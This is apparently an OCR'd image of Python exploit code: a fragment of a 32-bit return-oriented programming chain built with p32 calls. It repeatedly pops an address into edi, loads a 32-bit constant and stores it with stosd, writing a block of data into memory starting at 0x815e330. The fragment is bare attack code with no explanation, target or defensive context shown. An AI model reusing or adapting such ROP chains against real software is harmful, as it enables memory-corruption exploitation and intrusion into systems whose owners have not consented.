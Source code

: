 ```
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e330)
chain += p32(0x14b1c92b)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e334)
chain += p32(0x31fcef83)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e338)
chain += p32(0x6f03156f)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e33c)
chain += p32(0xe1174415)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e340)
chain += p32(0x513b7fe5)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e344)
chain += p32(0x54d62c59)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e348)
chain += p32(0x3f9633d4)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e34c)
chain += p32(0xe18c332b)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e350)
chain += p32(0x1e315be1)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e354)
chain += p32(0xe5fc717)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e358)
chain += p32(0xcf16a746)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e35c)
chain += p32(0xdd712102)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e360)
chain += p32(0xd9c02453)
```